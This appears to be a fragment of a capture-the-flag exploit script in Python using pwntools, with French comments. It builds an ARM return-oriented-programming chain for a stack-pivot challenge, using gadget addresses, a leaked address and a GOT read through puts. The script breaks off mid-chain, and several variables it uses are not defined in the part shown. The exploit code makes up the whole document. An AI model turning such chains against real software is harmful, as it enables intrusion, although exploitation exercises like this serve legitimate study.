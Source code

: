 ```python

# pop {r3, pc}; |
g_pop_r3 = 0x000105d4

#  mov r0, r3; sub sp, fp, #4; pop {fp, pc};
g_mov_r0r3 = 0x00010808

# 0x0001092c: blx r3;
g_blx_r3 = 0x0001092c

# 0x00010984 : pop {r4, r5, r6, r7, r8, sb, sl, pc}
g_pop_r45678 = 0x00010984


# 0x00010810 : pop {fp, pc}
g_pop_fp = 0x00010810

# Mode thumb
# mov lr, r4; adds r3, r7, #0; bx r3;
g_mov_lrr4_bx_r3 = 0x0001091d

# START

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


# ETAPE 0 : lecture de l'adresse leak
io.recvuntil(b"to pivot:")
leak = io.recvline().rstrip()
leak = int(leak,16)
log.info(f"got_foothold   = 0x{got_foothold:x}")
log.info(f"leak           = 0x{leak:x}")
log.info(f"adr ret2win    = 0x{lib_ret2win:x}")
log.info(f"adr foothold   = 0x{lib_foothold:x}")
log.info(f"offset ret2win = 0x{off_ret2win:x}")


log.info("ETAPE 1 / message 1")
# ETAPE 1 - Message 1
# ROP chaine d'exploitation
PL=b''
PL+=p32(0)
PL+=p32(leak+4*14)        # pop fp; ajusté pour mov_r0r3 plus loin
PL+=p32(g_pop_r45678)
PL+=p32(g_pop_r3)         # r4 => lr
PL+=p32(5)                #
PL+=p32(6)                #
PL+=p32(plt_foothold)     # => r3
PL+=p32(8)                #
PL+=p32(9)                #
PL+=p32(10)               #
PL+=p32(g_mov_lrr4_bx_r3)

# Apppel de puts
# pop r0
PL+=p32(got_foothold)     # pour r3 puis r0
PL+=p32(g_mov_r0r3)       # mov r0, r3; sub sp, fp, #4; pop {fp, pc};
PL+=p32(leak+4*26)        # ajuste fp pour le prochain mov_r0r3
# entree 14
PL+=p32(g_pop_r45678)
```